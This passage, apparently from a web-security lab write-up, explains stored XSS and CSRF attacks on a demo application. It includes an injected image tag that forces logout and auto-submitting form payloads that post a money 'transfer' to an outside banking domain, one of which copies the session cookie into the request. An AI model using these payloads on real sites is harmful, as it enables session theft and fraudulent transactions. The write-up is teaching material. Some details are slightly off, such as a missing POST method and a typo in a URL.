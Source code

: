 We can categorize this XSS attack as a stored XSS attack because the malicious JavaScript is stored as a post in the database. Consequently, when the post is loaded, the embedded JavaScript within the rendered HTML is executed.

#### CSRF Attack

From the XSS attack, we learned that we can inject HTML into the webpage - particularly a `script` tag containing malicious JavaScript. With this vulnerability in mind, we can also inject other HTML into the application to perform actions on the web application. Since, we were able to login via the SQL injection attack, we are already authenticated and have a valid session token. Thus, our malicious HTML can leverage the session token which is automatically included in any requests sent (since it is stored in a cookie) to the site. This could mean that this web application is vulnerable to a Cross-Site Request Forgery (CSRF) attack.

Consider the following HTML:

```html
<img src="/logout" />
```

We can inject this HTML as a user post. When the `/home` route is reloaded, the `img` tag within the post triggers an immediate execution of the `/logout` route. This action, performed automatically upon page load, effectively logs out the user by deleting the session token from both the server and the client. While the user isn't automatically redirected to the `/login` page (requiring a page refresh), they're unable to send further requests due to the absence of a valid session token. Any subsequent attempts, such as uploading another post, result in a `500` response code. This CSRF attack serves as a disruptive Denial of Service (DOS) tactic.

A CSRF attack (combined with an XSS attack) can also be used with POST requests. Consider the following HTML:

```html
<form action="https://bangko.com.ph/transfer" name="evilform">
  <input name="amount" value="10000" />
  <input name="recipient" value="177013" />
</form>
<script>
  document.evilform.submit();
  console.log(document.cookie);
</script>
```

When the `home` route is reloaded, the POST request is immediately sent, automatically attaching the session token for `httpsL//bangko.com.ph`.

We can explicitly access the session token by injecting this code:

```html
<form action="https://bangko.com.ph/transfer" name="evilform">
  <input name="amount" value="10000" />
  <input name="recipient" value="177013" />
  <input name="session_token" id="token" value="" />
</form>
<script>
  const token = document.getElementById("token");
  token.value = document.cookie;
  console.log(document.cookie);
  document.evilform.submit();
</script>
```
